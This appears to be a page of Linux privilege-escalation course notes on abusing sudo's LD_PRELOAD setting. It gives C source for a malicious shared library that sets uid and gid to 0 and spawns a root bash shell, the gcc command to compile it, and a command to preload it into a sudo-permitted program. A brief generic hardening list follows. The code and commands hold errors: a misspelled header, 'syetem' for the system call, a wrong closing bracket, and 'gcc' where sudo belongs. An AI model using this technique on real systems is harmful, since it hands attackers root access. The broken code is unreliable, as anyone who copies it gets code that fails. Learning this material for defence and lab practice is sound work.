

# 🛡️ LD_PRELOAD

> **Course Track:** [Linux Privilege Escalation](../../README.md)  
> **Module:** [Sudo](./README.md)  
> **Topic Path:** `Linux Privilege Escalation > Sudo > LD_PRELOAD`

---

## 🎯 Technical Overview & Objectives
This section covers the methodology, enumeration techniques, exploit mechanics, and defensive mitigations for **LD_PRELOAD**.

---

## 🔬 Practical Notes, Commands & Proof of Exploit


LD_PRELOAD also known as preloading

This attacks works only if when we run sudo -l we see LD_PRELOAD there
We are going to run the ld_preload with sudo for the  commands below like iftop,find,vim and so on



*Figure: Privilege Escalation Proof Screenshot*

We are doing this so it preloads the library before it runs 

Now we create a malicious library
in the vid we wrote it in c

```bash
nano shell.c
```

```c
#include <stdio.h>
#include <sys/tyoes.h>
#include <stdlib.h>

void _init() {
		unsetenv("LD_PRELOAD");
		setgid(0); 
		setuid(0);
		syetem("/bin/bash");
)
```
0 is for the root user 
We want the system to execute /bin/bash hence that is there in code so we get the shell

Then we will compile it with gcc
The purpose of this command is to create a shared library that can be used to inject a shell into a process

```c
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
The -fPIC flag stands for "Position-Independent Code." It instructs the compiler to generate code that can be loaded at any memory address, without requiring a specific base address. Basically regardless of where your shell addressing is it is going to function
Breakdown of the Command
- gcc: The GNU Compiler Collection (GCC) compiler.- fPIC: Generates position-independent code, which is required for shared libraries.- shared: Instructs the compiler to create a shared library.- o [shell.so](http://shell.so/): Specifies the output file name as [shell.so](http://shell.so/).- shell.c: The input C file to be compiled.- nostartfiles: Tells the compiler not to include the standard startup files (e.g., crt1.o, crti.o, crtn.o) in the linking process.
Now to get the shell

```c
 gcc LD_PRELOAD=/home/user/shell.so apache2
```
Again instead of apache 2 you can use any of the commands that you can use sudo with out password (Type sudo -l to check)


---

## 🛡️ Defensive Hardening & Remediation
- **Audit & Restrict Permissions:** Review `/etc/sudoers`, remove unnecessary SUID/SGID flags (`chmod u-s`), and enforce strict file ownership on configuration files.
- **Kernel Patching:** Regularly apply distribution security updates to mitigate known local privilege escalation (LPE) vulnerabilities.
- **Principle of Least Privilege:** Avoid running non-administrative daemon processes as `root` and isolate services using containers/namespaces.

---
[⬅ Back to Sudo](./README.md) • [🏠 Master Course Index](../README.md)
